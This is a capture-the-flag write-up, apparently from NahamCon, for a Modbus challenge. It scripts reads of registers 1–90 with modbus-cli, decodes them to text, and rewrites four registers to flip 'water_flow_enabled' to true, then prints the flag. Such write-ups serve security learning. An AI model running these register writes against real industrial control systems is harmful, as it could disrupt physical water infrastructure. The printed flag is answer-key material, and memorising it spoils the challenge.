




# Where's My Water?
> Swampy's water has stopped working again just before his shower.
> Can you help him get the water running again?
> The other alligators said something about busmod... Whatever that is.

## About the Challenge
We got 2 servers, first we can access it using browser and here is the preview



And the other server, we need to access it using [modbus-cli](https://github.com/favalex/modbus-cli)

## How to Solve?
First, we need read the register, i have a created a bash script like this

```
#!/bin/bash
for i in {1..90}
do
  modbus challenge.nahamcon.com:31112 $i
done
```

Run the script and we got something like this



Take the decimal number and then convert it to a character and you will get this result



Change the `water_flow_enabled` value from `false` to `true` using modbus-cli (Rewrite the register). Here is the command I used to solve rewrite the register

```shell
modbus challenge.nahamcon.com:32299 19=116 # f -> t
modbus challenge.nahamcon.com:32299 20=114 # a -> r
modbus challenge.nahamcon.com:32299 21=117 # l -> u
modbus challenge.nahamcon.com:32299 22=101 # s -> e
```



And then access the first server to obtain the flag


```
flag{fe01fd254c40488ff3f164e2343cd0044c6d87d3}
```